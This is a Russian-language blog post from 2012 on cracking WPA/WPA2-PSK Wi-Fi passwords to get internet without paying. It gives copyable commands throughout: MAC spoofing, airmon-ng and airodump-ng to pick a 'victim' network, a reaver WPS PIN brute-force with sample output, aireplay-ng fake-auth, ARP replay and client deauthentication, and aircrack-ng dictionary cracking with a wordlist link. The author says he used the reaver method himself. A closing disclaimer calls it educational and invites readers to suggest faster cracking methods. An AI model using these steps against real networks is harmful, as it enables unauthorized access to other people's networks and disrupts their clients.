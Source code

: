 Title: Неприступный wi-fi
Date: 2012-08-08 08:15
Tags: Arch
Slug: wi-fi
Author: redVi
Summary: Рассмотрим две хитрых программы, способные раскрасить наши беспросветные будни яркими красками.

Казалось бы, нет денег &mdash; нет интернета, путь к светлой беспроводной мечте закрыт и ничего здесь не попишешь. Но мы пойдём другим путём &mdash; обходным. Рассмотрим две хитрых программы, способные раскрасить наши беспросветные будни яркими красками. Всё нижеизложенное осуществлялось под управлением ОС Linux, но в Windows одна из используемых программ имеется точно и имя ей `aircrack-ng`.

<b>Задача:</b> получение пароля точки доступа WPA/PSK или WPA2/PSK.

Предполагаемый алгоритм решения:

## Меняем мак-адрес:

    :::console
    # ifconfig wlan0 hw ether 00:00:00:00:00:00

где 00:00:00:00:00:00 &mdash; ваш новый MAC-адрес.

При следующем входе в систему настройки будут сброшены.

Поднимаем сеть:

    :::console
    # ifconfig wlan0 up

## Создаём виртуальный интерфейс:

    :::console
    # airmon-ng start wlan0

Заработает виртуальный интерфейс в режиме мониторинга, как правило он носит название mon0. Теперь необходимо просканировать сеть и выбрать предполагаемую жертву, дабы получить BSSID сети.

##Начинаем прослушивать эфир:

    :::console
    # airodump-ng mon0

![mon0](http://1.bp.blogspot.com/-IWElfzIH6tU/UCF15qF1ySI/AAAAAAAABJM/mn3KesP73EA/s1600/aircrack-ng.png)

### Использование утилиты reaver

Получив необходимые сведения, вписываем их вместо подчёркнутых

    :::console
    $ sudo reaver -i mon0 -b 20:4E:7F:37:73:82 --channel 1 -vv


* mon0 - наш виртуальный интерфейс
* ключ -b обозначает BSSID точки доступа
* channel 1 - пробуем достучаться до первого "канала"
* vv - расширенный вывод - нас будут уведомлять о происходящем

Какой канал использует наш удалённый друг мы можем видеть в поле `CH`.

Если всё складывается удачно, вывод должен быть примерно таким:

        [+] Switching mon0 to channel 1
        [+] Waiting for beacon from 20:4E:7F:37:73:82
        [+] Associated with 20:4E:7F:37:73:82 (ESSID: marisha24)
        [+] Trying pin 12345670

Вот и всё. Теперь остаётся только долго ждать пока нам на блюдечке не поднесут нужные сведения. Автором сего поста был использован именно этот метод, как наиболее простой. Нижеприведённые на текущий момент носят сугубо теоретический характер.

###Путь второй: продолжаем эксперименты с `aircrack-ng`

    :::console
    # airodump-ng --channel 1 --write networks.dump mon0

* где 1 - номер канала
* networks.dump - файл, в который будет сохранён результат

В другой консоли начинаем повтор ARP-пакетов:

    :::console
    # aireplay-ng --fakeauth 1 mon0 -e "linksys"
    # aireplay-ng --arpreplay mon0 -e "linksys"

* где "linksys" - ESSID (имя) сети

Возможно, понадобится ввести и BSSID, в данном случае для этого служит ключ `-a`:

    :::console
    $ sudo aireplay-ng --fakeauth 1 mon0 -e dan9iekb -a FC:75:16:CC:20:D8

и так далее

Когда ARP-пакет будет найдет, программа начнет повторять его в эфир.

Как только наберется достаточное количество пакетов (поле DATA, 30.000 пакетов должно быть достаточно), в следующей консоли подбираем пароль:

    :::console
    # aircrack-ng networks.dump

Ну и ждём, соответственно. Занятие это долгое, параллельно на другой машине успеете [поставить gentoo](install-gentoo.html). И не только поставить, а даже настроить =)

Либо ещё способ с тем же `aircrack`, опишу с нуля, дабы не запутать читателя:

    :::console
    # airodump-ng mon0 - высматриваем жертву
    # airodump-ng -c 1 --bssid FC:75:16:CC:20:D8 -w data mon0 -  собираем данные о конкретной точке

Заставляем клиента переинициализироваться в сети:

    :::console
    # aireplay-ng -deauth 3 -a MAC_AP -c MAC_Client mon0

* где MAC_AP - ваш мак-адрес
* MAC_Client - адрес "того парня"

Способ хорош тем, что не придётся накапливать пакеты

    :::console
    # aircrack-ng -w wordlist capture_file

* где wordlist – ваш словарь
* capture_file – файл с данными, с расширением cap

Словари можно стянуть по адресу:

<http://ftp.se.kde.org/pub/security/tools/net/Openwall/wordlists>

<b>P.S.</b> Автор не несёт ответственности за ваши действия. Вся информация предоставлена исключительно в ознакомительных целях. Автор не использует полученные в результате эксперимента сведения, не разглашает их и даже не помнит. Не смотря на это ввиду любопытности темы всем сведующим лицам предлагается вносить свои правки и дополнения в комментариях: это может быть более лучший/быстрый метод взлома, могут быть ссылки на качественные словари &mdash; что угодно.

